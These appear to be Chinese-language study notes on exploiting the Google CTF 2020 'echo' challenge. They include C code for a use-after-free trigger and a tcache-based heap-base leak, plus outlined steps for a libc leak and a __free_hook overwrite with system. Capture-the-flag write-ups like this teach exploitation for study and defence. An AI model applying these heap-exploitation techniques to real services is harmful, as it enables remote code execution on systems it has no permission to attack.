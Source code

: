 参考：

https://github.com/yytgravity/Daily-learning-record/blob/master/google%20ctf%20wp/echo/Readme.md

http://blog.redrocket.club/2020/08/30/google-ctf-quals-2020-echo/



```c
// fill up remaining chunks 1 to 9
    //填充剩余1-8个块
    for (i = 1; i < 9; i++) {
        writeall(conns[i], chunk, 0x10000u >> i);
        yield();
    }
```

为什么要右移？（似乎是）填充由字符串重新分配引起的漏洞（没看懂

但是后面leak libc的时候利用到了

## uaf漏洞利用方式

```c
#define yield() usleep(1000)

int conn() {
    //open connection on localhost:21337
}

int main() {
    int c1, c2;
    
    c1 = conn();
    yield();
    c2 = conn();
    write(c1, "AAAA...", 0x20);
    write(c2, "BBBB...", 0x20);
    yield();
    
    write(c2, "uafw", 4);
    close(c1);
    yield();
    
    return 0;
}
```

用这个代码会实现uaf，第三个对于c2的write会写到c1去，似乎是因为析构会将两个fd的chunk指针交换



## leak heap

- 泄漏heap的地址主要依靠glibc2.29引入的key指针，我们都知道它指向堆开头的tcache_perthread_struct结构的地址，我们将他泄漏就可以得到堆基址。

操作：

1. 申请0x10000大小的大chunk（主要保证之后低地址覆盖时可以正好落入大chunk）
2. 申请三个chunk
3. free chunk A，chunk B，然后利用uaf把chunk B的fd指针的第一个字节修改为空
4. 申请chunk C，chunk D，chunk C=chunk B，因为修改了字节，所以chunk D大概率在之前申请的大chunk里
5. free掉chunk D，然后输出大chunk，在里面即可找到heap基址

```c
// allocate 3 0x30 chunks, A chunk right behind the 0x10000 area
    //分配三个0x30的块
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    yield();
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();

    // close A buffer, places pointer to it in tcache freelist head
    //关闭A，将指向它的指针放在tcache的freelist head中
    close(conns[13]);
    yield();

    // bug: free B, and uaf write two nullbytes into free'd B memory.
    // partially overwrites tcaches next pointer pointing to A.            
    write(conns[15], "\0", 1);
    close(conns[14]);
    yield();

    // allocate two 0x30 chunks, Y is likely to be placed inside the 0x10000 area
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY", 0x20);
    yield();

    // free Y chunk, writes heap base into 0x10000 area
    close(conns[14]);
    yield();

    // read the buffer back in by sending '\n'
    write(conns[0], "\n", 1);
    // skip the hello message, linus would insult me for writing this code
    do {
        read(conns[0], chunk, 1);
    } while(*chunk != '\n');
    readall(conns[0], chunk, 0x10000);

    // search for heap address
    size_t *leak = memmem(chunk, 0x10000, "YYYYYYYY", 8);
    if (!leak) {
        puts("heapbase not found :(");
        exit(0);
    }
    size_t heapbase = leak[-1];
    printf("heapbase located at: 0x%lx\n", heapbase);
```



## leak libc

首先利用uaf分配和0x810有重复位置的0x30的chunk

通过write("\n")free掉0x810的chunk

然后利用tcache key泄漏出libc基址


## get flag

还是利用uaf，获取free_hook的空间

用libc.system覆盖掉它

在chunk里写下想执行的语句，执行即可
